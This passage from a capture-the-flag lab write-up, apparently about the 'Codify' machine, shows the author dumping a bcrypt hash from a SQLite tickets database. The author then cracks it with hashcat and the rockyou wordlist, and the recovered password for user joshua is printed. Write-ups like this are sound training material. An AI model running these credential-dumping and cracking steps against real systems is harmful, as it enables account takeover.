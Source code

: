 The contact folder is for the :3000 service and editor from the :80 one.
In the contact folder there is a sqlite3 db file:

```bash
svc@codify:/var/www/contact$ ls -l tickets.db 
-rw-r--r-- 1 svc svc 20480 Sep 12  2023 tickets.db
```

Let's enumerate it:

```bash
svc@codify:/var/www/contact$ sqlite3 tickets.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We have joshua's hash, let's crack it in our machine:

```bash
❯ hashid '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
Analyzing '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
                                                                                                            
❯ hashcat --example-hashes | grep bcrypt -B 4
  Custom.Plugin.......: No
  Plaintext.Encoding..: ASCII, HEX

Hash mode #3200
  Name................: bcrypt $2*$, Blowfish (Unix)
< -- SNIP -- >

❯ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt --username
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
<-- SNIP -->


$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1

<-- SNIP -->
```

So the password for joshua is 'spongebob1'

# Access as joshua
